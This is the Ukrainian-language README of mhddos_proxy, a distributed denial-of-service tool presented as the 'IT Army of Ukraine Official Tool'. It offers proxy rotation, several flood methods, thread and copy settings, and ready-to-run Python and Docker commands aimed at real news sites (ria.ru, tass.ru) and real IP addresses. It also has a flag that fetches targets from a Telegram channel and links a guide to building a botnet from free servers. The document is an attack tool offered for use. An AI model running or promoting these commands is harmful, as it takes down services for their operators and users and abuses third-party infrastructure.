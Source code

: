 ## IT Army of Ukraine Official Tool 

### [English Version](/README-EN.md)

- Вбудована база проксі з величезною кількістю IP по всьому світу
- Можливість задавати багато цілей з автоматичним балансуванням навантаження
- Безліч різноманітних методів
- Ефективне використання ресурсів завдяки асихронній архітектурі

### ⏱ Останні оновлення
  
Оновлення версії для Windows | Mac | Linux | Android | Docker: https://telegra.ph/Onovlennya-mhddos-proxy-04-16  

- **21.05.2022**
  - Додано англійську локалізацію - параметр `--lang EN` (в майбутньому можуть бути додані інші мови)

- **18.05.2022**
  - Додано налаштування `--copies` для запуску декількох копій (рекомендовано до використання при наявності 4+ CPU та мережі > 100 Mb/s).

- **15.05.2022**
  - Повністю оновлена асинхронна версія, що забезпечує максимальну ефективність та мінімальне навантаження на систему
  - Ефективна робота зі значно більшими значеннями параметру `-t` (до 10k) без ризику "підвісити" усю машину
  - Абсолютно новий алгоритм розподілення навантаження між цілями з метою досягнення максимальної потужності
  - Додано методи `RGET`, `RHEAD`, `RHEX` та `STOMP`.

### 💽 Встановлення - [інструкції ТУТ](/docs/installation.md)

### 🕹 Запуск (наведено різні варіанти цілей)

#### Python (якщо не працює - просто python або python3.10 замість python3)

    python3 runner.py https://ria.ru 5.188.56.124:80 tcp://194.54.14.131:4477

#### Docker (для Linux додавайте sudo на початку команди)

    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy https://ria.ru 5.188.56.124:80 tcp://194.54.14.131:4477

### 🛠 Налаштування (більше у розділі [CLI](#cli))

**Усі параметри можна комбінувати**, можна вказувати і до і після переліку цілей

Змінити навантаження - `-t XXXX` - максимальна кількість одночасно відкритих зʼєднань, за замовчуванням 7500 (або 1000 якщо на машині лише 1 CPU).

    python3 runner.py -t 5000 https://ria.ru https://tass.ru

Щоб переглянути інформацію про хід роботи, додайте параметр  `--debug` для тексту, `--table` для таблиці.

    python3 runner.py --debug https://ria.ru https://tass.ru
    
Щоб обрати цілі від https://t.me/itarmyofukraine2022 додайте параметр `--itarmy`  

    python3 runner.py --itarmy --debug

### 📌Автоматичний шукач нових проксі для mhddos_proxy
Сам скрипт та інструкції по встановленню тут: https://github.com/porthole-ascend-cinnamon/proxy_finder

### 🐳 Комьюніті
- [Детальний розбір mhddos_proxy та інструкції по встановленню](docs/installation.md)
- [Аналіз засобу mhddos_proxy](https://telegra.ph/Anal%D1%96z-zasobu-mhddos-proxy-04-01)
- [Приклад запуску через docker на OpenWRT](https://youtu.be/MlL6fuDcWlI)
- [Створення ботнету з 30+ безкоштовних та автономних(працюють навіть при вимкненому ПК) Linux-серверів](https://auto-ddos.notion.site/dd91326ed30140208383ffedd0f13e5c)
- [VPN](https://auto-ddos.notion.site/VPN-5e45e0aadccc449e83fea45d56385b54)

### CLI

    usage: runner.py target [target ...]
                     [-t THREADS] 
                     [-c URL]
                     [--table]
                     [--debug]
                     [--vpn]
                     [--rpc RPC] 
                     [--http-methods METHOD [METHOD ...]]
                     [--itarmy]
                     [--copies COPIES]

    positional arguments:
      targets                List of targets, separated by space
    
    optional arguments:
      -h, --help             show this help message and exit
      -c, --config URL|path  URL or local path to file with targets list
      -t, --threads 2000     Total number of threads to run (default is CPU * 1000)
      --table                Print log as table
      --debug                Print log as text
      --vpn                  Use both my IP and proxies. Optionally, specify a percent of using my IP (default is 10%)
      --rpc 2000             How many requests to send on a single proxy connection (default is 2000)
      --proxies URL|path     URL or local path(ex. proxies.txt) to file with proxies to use
      --http-methods GET     List of HTTP(L7) methods to use (default is GET + POST|STRESS).
      --itarmy               Attack targets from https://t.me/itarmyofukraine2022  
      --copies 1             Number of copies to run (default is 1)
      --lang {EN,UA}         Select language (default is UA)

### Власні проксі

#### Формат файлу:

    IP:PORT
    IP:PORT:username:password
    username:password@IP:PORT
    protocol://IP:PORT
    protocol://IP:PORT:username:password
    protocol://username:password@IP:PORT

де `protocol` може бути одним з 3-ох: `http`|`socks4`|`socks5`, якщо `protocol`не вказувати, то буде обрано `http`  
наприклад для публічного проксі `socks4` формат буде таким:

    socks4://114.231.123.38:3065

а для приватного `socks4` формат може бути одним з таких:

    socks4://114.231.123.38:3065:username:password
    socks4://username:password@114.231.123.38:3065
  
**URL - Віддалений файл для Python та Docker**

    python3 runner.py https://tass.ru --proxies https://pastebin.com/raw/UkFWzLOt
    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy https://tass.ru --proxies https://pastebin.com/raw/UkFWzLOt

де https://pastebin.com/raw/UkFWzLOt - ваша веб-сторінка зі списком проксі (кожен проксі з нового рядка)  
  
**path - Для Python**  
  
Покладіть файл у папку з `runner.py` і додайте до команди наступний параметр (замініть `proxies.txt` на ім'я свого файлу)

    python3 runner.py --proxies proxies.txt https://ria.ru

де `proxies.txt` - ваша ваш файл зі списком проксі (кожен проксі з нового рядка)
